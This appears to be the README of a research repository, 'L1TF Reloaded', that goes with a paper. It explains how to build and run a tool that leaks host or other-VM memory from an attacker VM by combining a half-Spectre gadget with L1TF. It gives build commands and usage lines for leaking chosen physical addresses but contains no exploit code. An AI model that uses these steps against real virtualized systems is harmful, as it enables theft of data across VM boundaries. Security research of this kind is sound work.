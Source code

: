 # L1TF Reloaded

## Prerequisites

To run this in an attacker VM, make sure you have the following things setup:

- `CMake`, at least version 3.10.
- `make`
- `gcc`, we used version `gcc (GCC) 14.2.1 20240910`
- Headers for your Linux kernel, compiled with the patch from Figure 6 of the paper.

Then, download the git submodules

```sh
git submodule update --init --recursive
```

## Building

To build everything, just run

```sh
make
```

You can also build each target separately, with commands such as

```sh
make kvm_leak
make victim
make hypercall
make kvm_assist
make pteditor.ko
```

To remove all the build artifacts, run

```sh
make clean
```

## Running

Load the required kernel modules with

```sh
make load_modules
```

Then, run the following two commands in separate shells.

To trigger the half-Spectre gadget:

```sh
./build/kvm_leak access_min [index into the phys_map] [amount of bytes you want to leak]
```

To leak the loaded data with L1TF:

```sh
./build/kvm_leak l1tf leak -a [physical address you want to leak] -l [amount of bytes you want to leak]
```

## Licence

This is free software licensed under the European Union Public Licence v.1.2. See [LICENSE](./LICENSE) for more details.
